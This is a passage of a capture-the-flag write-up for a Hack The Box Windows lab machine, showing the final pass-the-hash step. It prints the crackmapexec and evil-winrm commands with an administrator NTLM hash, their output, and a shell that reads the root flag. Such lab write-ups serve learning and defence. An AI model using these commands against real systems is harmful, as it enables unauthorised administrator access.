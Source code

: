 ### pass the hash

with the last part of the hash I can perform a pass the hash attack to get a shell as administrator first I confirm it with crackmapexec

```
$ sudo crackmapexec winrm -i 10.10.10.161 -u administrator -H 32693b11e6aa90eb43d32c72a07ceea6                                 
$ sudo crackmapexec winrm 10.10.10.161 -u administrator -H 32693b11e6aa90eb43d32c72a07ceea6
SMB         10.10.10.161    5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local)
HTTP        10.10.10.161    5985   FOREST           [*] http://10.10.10.161:5985/wsman
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\administrator:32693b11e6aa90eb43d32c72a07ceea6 (Pwn3d!)
```

and finally through winrm I get a powershell session as administrator

```
$ evil-winrm -i 10.10.10.161 -u administrator -H 32693b11e6aa90eb43d32c72a07ceea6 
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami 
htb\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\Administrator\Desktop\root.txt
5313a89a86b...
```




